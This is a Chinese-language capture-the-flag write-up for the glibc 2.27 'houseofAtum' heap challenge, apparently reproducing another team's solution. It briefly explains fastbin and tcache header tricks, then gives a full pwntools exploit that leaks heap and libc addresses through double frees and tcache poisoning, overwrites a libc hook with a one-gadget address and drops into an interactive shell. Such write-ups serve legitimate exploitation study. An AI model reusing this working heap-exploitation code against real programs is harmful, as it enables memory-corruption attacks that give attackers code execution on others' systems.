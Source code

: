 这题是three的升级版，有了leak函数，但是限制条件变成只能申请两个堆

重点是在两个堆的情况下能leak出libc并且能进行多次任意地址写入

按照之前的思路。要控制堆到任意地址，至少需要3个堆,这也是tcache先进后出的特点，申请大小固定，如果你edit改了fd后就需要两个chunk到所需位置，之前edit的chunk没法改，改了排在前面没法。所以相当于多了一个chunk

这里我复现的r3kapig的wp



**fastbin和tcache的chunk header位置**

fastbin header指向的size位置，而tcache指向的是mem_chunk

利用这个特性就可以不用tcache_dup的方式fake_chunk,



**利用tcache_header**

这一点和我上题思路很像



**覆盖tcache_size位**

这里技能0x48大小不是白来的，既能修改到0x50tcache的header指针，又能覆盖到0x250大小的size位



```python
from pwn import *

ip = ""
port = 2333
fileName = "houseofAtum"
libcName = "libc.so.6"
libcver = 2.27

if args["LIBC"]:
    from change import *
    context.terminal = ["terminator", "-e"]
    context.log_level = "debug"
    bin = change_ld(fileName,libcver)
    p = bin.process()
elif args["REMOTE"]:
    p = remote(ip,port)
else:
    from change_ld import *
    context.terminal = ["terminator","-e"]
    bin = change_ld(fileName,libcName)
    libc = ELF(libcName)
    p = bin.process(env={"LD_PRELOAD":libc.path})

def Debug(cmd=""):
    gdb.attach(p)
    pause()


def new(content):
    p.sendlineafter("choice:", "1")
    p.sendafter("content:", content)


def edit(idx, content):
    p.sendlineafter("choice:", "2")
    p.sendlineafter("idx:", str(idx))
    p.sendafter("content:", content)


def delete(idx, choice):
    p.sendlineafter("choice:", "3")
    p.sendlineafter("idx:", str(idx))
    p.sendlineafter("(y/n):", choice)

def show(idx):
    p.sendlineafter("choice:", "4")
    p.sendlineafter("idx:", str(idx))
    p.recvuntil("Content:")

new("A"*8)
new("B"*8)
delete('0','n')
delete('1','n')
show(1)
heap_base = u64(p.recv(6)+"\x00"*2)-0x260
success("heap_base-->"+hex(heap_base))
for i in range(5):
    delete(0,"n")
delete('1','y')
delete('0','y')
new("A"*0x30+p64(0)+p64(0x81)+p64(heap_base+0x30))
new("B")
delete(1,"y")
new("A")
delete(0,"y")
edit(1,p64(0)*7+p64(heap_base+0x10))
new("0x11")#0
for i in range(7):
    delete(0,"n")
delete(0,"y")
edit(1,p64(0)*7+p64(heap_base+0x10))
new('\xa0')#0
show(0)
libc_addr = u64(p.recv(6)+"\x00"*2)+0xe4d360
success("libc_addr-->"+hex(libc_addr))
delete(0,"y")
edit(1,p64(0)*7+p64(libc_addr+0x1b48e8))
new(p64(libc_addr+0x43cfe))
p.sendlineafter("choice:", "3")
p.sendlineafter("idx:", "0")
p.interactive()
```

